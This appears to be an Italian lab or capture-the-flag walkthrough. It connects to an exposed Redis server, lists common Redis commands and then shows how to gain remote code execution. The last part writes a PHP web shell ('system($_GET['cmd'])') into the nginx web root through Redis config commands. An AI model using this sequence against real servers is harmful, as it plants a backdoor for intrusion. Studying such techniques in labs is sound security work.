 ```
redis-cli -h 10.10.72.78
```

Una volta connesso a un server Redis utilizzando `redis-cli -h 10.10.72.78`, puoi inviare vari comandi per interagire con il database Redis. Ecco alcuni dei comandi più comuni che puoi utilizzare:

1. **Comandi di base:**
    
    - `PING`: Verifica se il server Redis è attivo.
    - `INFO`: Mostra informazioni sul server Redis.
    - `SELECT <db>`: Seleziona un database specifico (Redis supporta più database).
2. **Comandi per le stringhe:**
    
    - `SET <key> <value>`: Imposta il valore di una chiave.
    - `GET <key>`: Recupera il valore di una chiave.
    - `DEL <key>`: Elimina una chiave.
3. **Comandi per le liste:**
    
    - `LPUSH <key> <value>`: Aggiunge un valore all'inizio di una lista.
    - `RPUSH <key> <value>`: Aggiunge un valore alla fine di una lista.
    - `LRANGE <key> <start> <stop>`: Recupera un intervallo di elementi da una lista.
4. **Comandi per gli insiemi:**
    
    - `SADD <key> <member>`: Aggiunge un membro a un insieme.
    - `SMEMBERS <key>`: Recupera tutti i membri di un insieme.
5. **Comandi per gli hash:**
    
    - `HSET <key> <field> <value>`: Imposta il valore di un campo in un hash.
    - `HGET <key> <field>`: Recupera il valore di un campo in un hash.
6. **Comandi per le chiavi:**
    
    - `KEYS <pattern>`: Recupera tutte le chiavi che corrispondono a un pattern.
    - `EXISTS <key>`: Verifica se una chiave esiste.
7. **Comandi di gestione:**
    
    - `FLUSHDB`: Elimina tutte le chiavi del database selezionato.
    - `FLUSHALL`: Elimina tutte le chiavi di tutti i database.

Questi sono solo alcuni dei comandi disponibili in Redis. Puoi consultare la [documentazione ufficiale di Redis](https://redis.io/commands) per un elenco completo e dettagliato di tutti i comandi e delle loro opzioni.

Dal banner sappiamo che si tratta del server **ngnix** che memorizza i suoi dati HTML su **/var/www/html**

**Prepariamo  RCE**

```
config set dir /var/www/html
```
```
config set dbfilename shell.php
```
```
set test "<?php system($_GET['cmd']) ?>"
```
```
save
```
